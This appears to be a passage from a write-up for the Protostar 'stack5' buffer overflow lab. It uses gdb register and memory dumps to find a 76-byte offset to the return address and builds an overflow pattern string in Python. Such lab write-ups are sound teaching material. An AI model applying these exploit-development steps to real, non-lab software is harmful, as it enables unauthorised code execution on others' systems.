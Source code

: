 <br/>

Now I have to find the offset i'll show two ways

<br/>

The first one
```bash
(gdb) r
Starting program: /opt/protostar/bin/stack5 
abcdef

Breakpoint 1, 0x080483da in main (argc=134513604, argv=0x1) at stack5/stack5.c:11
11      stack5/stack5.c: No such file or directory.
        in stack5/stack5.c
(gdb) info reg
eax            0xbffff700       -1073744128
ecx            0xbffff700       -1073744128
edx            0xb7fd9334       -1208118476
ebx            0xb7fd7ff4       -1208123404
esp            0xbffff74c       0xbffff74c
ebp            0xbffff7c8       0xbffff7c8
esi            0x0      0
edi            0x0      0
eip            0x80483da        0x80483da <main+22>
eflags         0x200246 [ PF ZF IF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
(gdb) x/s 0xbffff700
0xbffff700:      "abcdef"
(gdb) p/d 0xbffff74c - 0xbffff700
$1 = 76
```

And the other ways is using cyclic() and cyclic_find()

<br/>

Now I have to find the return address
```python
>>> print('A'*76+'B'*4+'C'*100)
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC
```
I'll use this pattern because it's easy to see

<br/>

Now let's sending them and examine EAX to find the return address
```bash
(gdb) r
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC

(gdb) x/60wx $eax
0xbffff700:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff710:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff720:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff730:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff740:     0x41414141      0x41414141      0x41414141      0x42424242
0xbffff750:     0x43434343      0x43434343      0x43434343      0x43434343
0xbffff760:     0x43434343      0x43434343      0x43434343      0x43434343
0xbffff770:     0x43434343      0x43434343      0x43434343      0x43434343
0xbffff780:     0x43434343      0x43434343      0x43434343      0x43434343
```